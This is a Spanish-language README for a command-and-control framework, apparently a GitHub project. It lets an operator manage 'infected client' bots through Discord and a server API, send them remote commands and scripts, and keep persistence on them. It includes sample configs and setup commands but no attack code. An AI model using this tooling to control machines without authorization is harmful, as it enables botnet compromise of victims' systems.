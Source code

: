 
# C-CMemo

C-CMemo es un framework de Comando y Control (C&C) para gestionar bots a través de un bot de Discord y una API de servidor. Este proyecto es solo para fines educativos y de investigación.

## Características

- Gestionar bots a través de un bot de Discord.
- Enviar comandos a los bots.
- Listar bots conectados.
- Cerrar conexiones con bots específicos.
- Ejecutar scripts de forma remota.
- Asegurar persistencia en los bots.

## Estructura del Proyecto

```
C-CMemo/
├── config/
│   ├── config.ini
│   ├── config_bot.ini
├── src/
│   ├── discord_bot.py
│   ├── servidor.py
│   ├── clienteinfectado.py
├── docs/
│   ├── eula_servidor.txt
│   ├── eula_cliente.txt
├── README.md
```

## Configuración

### config.ini

Este archivo contiene la configuración para el servidor.

```ini
[NETWORK]
HOST = 127.0.0.1
PORT = 5000
MAX_CONNECTIONS = 10

[DATABASE]
DB_PATH = bbdd/bots.db

[SECURITY]
SECRET_KEY = MiClaveSuperSecreta
HASH_ALGORITHM = SHA256

[LOGGING]
LOG_LEVEL = INFO
LOG_DIR = logs
CLIENT_LOG_FILE = client.log
SERVER_LOG_FILE = server.log
```

### config_bot.ini

Este archivo contiene la configuración para el bot de Discord.

```ini
[DISCORD]
BOT_TOKEN = TU_DISCORD_BOT_TOKEN
CONNECTIONS_CHANNEL_ID = TU_CONNECTIONS_CHANNEL_ID
COMMANDS_CHANNEL_ID = TU_COMMANDS_CHANNEL_ID
GENERIC_RESPONSES_CHANNEL_ID = TU_GENERIC_RESPONSES_CHANNEL_ID
SCRIPT_RESPONSES_CHANNEL_ID = TU_SCRIPT_RESPONSES_CHANNEL_ID
BOT_INFO_RESPONSES_CHANNEL_ID = TU_BOT_INFO_RESPONSES_CHANNEL_ID
```

## Uso

### 1. Configuración del Servidor

1. Instalar las dependencias necesarias:

   ```bash
   pip install -r requirements.txt
   ```
2. Configurar el archivo `config.ini` con tus ajustes deseados.
3. Ejecutar el servidor:

   ```bash
   python src/servidor.py
   ```

### 2. Configuración del Bot de Discord

1. Crear un bot de Discord y obtener el token del bot. Sigue las instrucciones [aquí](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Configurar el archivo `config_bot.ini` con tu token de bot y los IDs de los canales.
3. Ejecutar el bot de Discord:

   ```bash
   python src/discord_bot.py
   ```

### 3. Configuración del Cliente Infectado

1. Configurar el archivo `config.ini` con la IP y el puerto del servidor.
2. Ejecutar el cliente infectado:

   ```bash
   python src/clienteinfectado.py --host <SERVER_IP> --port <SERVER_PORT> --key <SECRET_KEY>
   ```

## Comandos

### Comandos del Bot de Discord

- **!listar_bots**: Lista los bots conectados.
- **!enviar_comando <comando_windows> <comando_linux>**: Envía un comando a los bots conectados.
- **!cerrar_conexion <bot_id>**: Cierra la conexión con un bot específico.
- **!menu_comandos**: Muestra el menú de comandos.
- **!ayuda**: Muestra el mensaje de ayuda.

### Endpoints de la API del Servidor

- **GET /listar_bots**: Lista los bots conectados.
- **POST /enviar_comando**: Envía un comando a los bots seleccionados.
- **POST /cerrar_conexion**: Cierra la conexión con un bot específico.

## Licencia

Este proyecto es solo para fines educativos y de investigación. El uso de este software en redes no autorizadas está prohibido. El usuario debe cumplir con las leyes de su país. El autor no se hace responsable de cualquier uso indebido de este software.
